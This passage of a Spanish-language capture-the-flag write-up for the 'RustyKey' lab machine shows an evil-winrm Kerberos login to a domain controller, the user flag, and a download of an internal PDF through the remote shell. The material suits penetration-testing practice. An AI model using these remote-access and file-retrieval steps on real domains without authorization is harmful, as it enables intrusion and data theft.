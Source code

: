 ### Evil-winrm

```shell
evil-winrm -i dc.rustykey.htb -u bb.morgan -r RUSTYKEY.HTB
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> whoami
rustykey\bb.morgan
```

Veremos que ya estaremos dentro con dicho usuario, por lo que vamos a leer la `flag` del usuario.

> user.txt

```
87ad4335f67304b8a6bd5e302ccf4e84
```

## Escalate user EE.REED

Si listamos el `Desktop` de dicho usuario veremos a parte de la `flag` este archivo `PDF` bastante interesante.

```
Directory: C:\Users\bb.morgan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/4/2025   9:15 AM           1976 internal.pdf
-ar---       10/15/2025   5:02 AM             34 user.txt
```

Nos lo vamos a descargar con la utilidad `download` del propio `evil-winrm`.

```powershell
download internal.pdf
```

Info:

```
Info: Downloading C:\Users\bb.morgan\Desktop\internal.pdf to internal.pdf
                                        
Info: Download successful!
```
